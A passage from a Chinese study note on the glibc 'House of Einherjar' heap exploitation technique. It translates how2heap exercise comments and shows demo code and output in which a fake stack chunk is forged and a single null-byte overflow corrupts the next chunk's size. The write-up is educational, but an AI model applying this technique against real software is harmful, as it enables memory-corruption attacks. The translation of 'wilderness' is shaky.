 练习中的注释如下：

``` c++
    //if we allocate another chunk before we free b we will need to 
    //do two things: 
    //1) We will need to adjust the size of our fake chunk so that
    //fake_chunk + fake_chunk's size points to an area we control
    //2) we will need to write the size of our fake chunk
    //at the location we control. 
    //After doing these two things, when unlink gets called, our fake chunk will
    //pass the size(P) == prev_size(next_chunk(P)) test. 
    //otherwise we need to make sure that our fake chunk is up against the
    //wilderness
```

如果在 free b 之前申请另一个 chunk 会做两件事：

1. 我们需要调整 fake chunk 的 size 以便于 fake_chunk + fake_chunk 的 size 指向一块我们控制的区域
2. 我们需要向我们控制的地址写 fake chunk 的 size。

在做完这两件事之后，unlink 时我们的 fake chunk 就会通过 `size(P) == prev_size(next_chunk(P))` 的校验。

我们还要保证 fake chunk 与 wilderness?(这个咋翻译) 相对。

``` c++
    fprintf(stderr, "\nNow we can call malloc() and it will begin in our fake chunk\n");
    d = malloc(0x200);
    fprintf(stderr, "Next malloc(0x200) is at %p\n", d);
```

这时我们再 malloc 的话，它就会从 fake chunk 开始分配了。

```
Next malloc(0x200) is at 0x7fffffffdc60
```

### 输出

```
$ ./glibc_2.25/house_of_einherjar
Welcome to House of Einherjar!
Tested in Ubuntu 16.04 64bit.
This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.

We allocate 0x38 bytes for 'a'
a: 0x603010
Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: 0x38

We create a fake chunk wherever we want, in this case we'll create the chunk on the stack
However, you can also create the chunk in the heap or the bss, as long as you know its address
We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks
(although we could do the unsafe unlink technique here in some scenarios)
Our fake chunk at 0x7fffffffdca0 looks like:
prev_size (not used): 0x100
size: 0x100
fwd: 0x7fffffffdca0
bck: 0x7fffffffdca0
fwd_nextsize: 0x7fffffffdca0
bck_nextsize: 0x7fffffffdca0

We allocate 0xf8 bytes for 'b'.
b: 0x603050

b.size: 0x101
b.size is: (0x100) | prev_inuse = 0x101
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100
This is easiest if b.size is a multiple of 0x100 so you don't change the size of b, only its prev_inuse bit
```